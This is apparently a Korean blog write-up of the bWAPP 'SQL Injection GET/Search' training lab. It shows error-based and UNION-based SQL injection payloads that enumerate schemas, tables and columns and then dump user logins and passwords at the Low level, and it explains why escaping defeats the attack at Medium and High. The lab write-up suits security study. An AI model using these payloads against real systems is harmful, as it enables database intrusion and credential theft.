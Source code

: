 ```yaml
---
layout: single
title: (bWAPP)SQL Injection GET/Search
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image.png)
- 검색 기능이 존재하며, GET 방식으로 전송된다.
- ‘ (싱글쿼터) 입력을 통해 Error 유/무를 체크해보았다.

![그림 1-2](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image2.png)
- Error 가 발생되며 DBMS Error 가 페이지상에 노출되고 있다.
- MySQL 로 확인된다.

![그림 1-3](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image3.png)
- 연결 연산자를 통해 추가 확인을 했다.
- DBMS Error 가 노출되고 있으니 Error Based 공격을 수행했다.

```sql
' and updatexml(null,concat(0x3a,(select database())),null) and '%%'='%
```

> Bee-Box 에서는 updatexml 함수는 사용이 되지 않는다. (다른 환경에선는 정상 작동 함)

- 해당 Bee Box 에서는 Error Based 가 불가능 한 것으로 판단
- Union Based 공격을 수행

![그림 1-4](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image4.png)

- order by 7 결과 정상적인 출력 확인
- order by 8 결과 Error 발생 확인
- 총 컬럼의 개수는 7개로 확인됨

![그림 1-5](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image5.png)

```sql
%' union select 1,2,3,4,5,6,7--
```

- 출력 결과의 하단을 보게 되면, union select 결과로 2,3,5,4 총 4개의 출력 구간을 확인
- 출력 포지션을 확인 하였으니, 순차적으로 레코드를 출력 하였다.

```sql
'union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

```sql
'union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
'union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users'--
```

![그림 1-6](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image6.png)

- 컬럼의 종류를 확인하였으니, 이제 확인 하고자 하는 컬럼의 데이터를 최종적으로 추출함.

```sql
'union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users-- 
```

![그림 1-7](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image7.png)
- 성공 적으로 Data를 획득 헀다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.